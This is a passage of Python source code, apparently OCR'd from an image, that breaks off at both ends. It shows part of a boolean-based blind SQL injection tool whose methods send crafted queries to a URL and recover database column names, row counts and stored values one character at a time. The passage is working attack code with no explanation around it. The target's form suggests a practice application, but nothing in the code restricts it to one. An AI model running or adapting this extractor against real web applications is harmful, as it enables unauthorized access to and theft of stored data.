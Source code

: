 ```python
                self.column_length.append(i)
                break
        if len(self.column_length) >= 1:
            print('\n==>',self.column_length)
        else:
            print('\ncan not get the column_length')
    def get_column_name(self,table_name):
        name = ''
        for i in range(1,self.column_length[0]+1):
            for j in self.zifuji:
                self.process('{0} get_column_name'.format(str(i)),j,100)
                theurl = self.url + "1' and (select ascii(substring(group_concat(column_name),{0},1)) as a from information_schema.columns where table_schema=database() and table_name='{1}' having a={2})%23".format(str(i),table_name,str(j)) + "&Submit=Submit#"
                html = self.s.get(theurl,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
                name += '|'
        if len(name) == self.column_length[0]:
            self.column_name.append(name)
            print('\n==>',self.column_name[0])
        else:
            print('\ncan not get the column_name')
    def get_word_num(self,table_name,column_name):
        for i in range(1,100):
            self.process('get_word_num',i,30)
            theurl = self.url + "1' and (select count({0}) as a from {1} having a={2})%23".format(column_name,table_name,str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.word_num = i
                break
        if self.word_num > 0:
            print('\n==>',self.word_num)
        else:
            print('\ncan not get the word_num')
    def get_word_length(self,table_name,column_name):
        for i in range(1,200):
            self.process('get_{0}_length'.format(column_name),i,200)
            theurl = self.url + "1' and (select length(group_concat({0})) as a from {1} having a={2})%23".format(column_name,table_name,str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.word_length.append(i)
                break
        if len(self.word_length) >= 1:
            print('\n==>',self.word_length)
        else:
            print('\ncan not get the word length') 
    def get_word_name(self,table_name,column_name,word_num):
        name = ''
        for i in range(1,self.word_length[word_num]+1):
            for j in self.zifuji:
                self.process('get_{0}_name'.format(str(i)),j,100)
                theurl = self.url + "1' and (select ascii(substring(group_concat({0}),{1},1)) as a from {2} having a={3})%23".format(column_name,str(i),table_name,str(j)) + "&Submit=Submit#"
                html = self.s.get(theurl,headers=self.headers).text
                if self.check(html):
                    name += chr(j)
                    break
            if len(name) != i:
```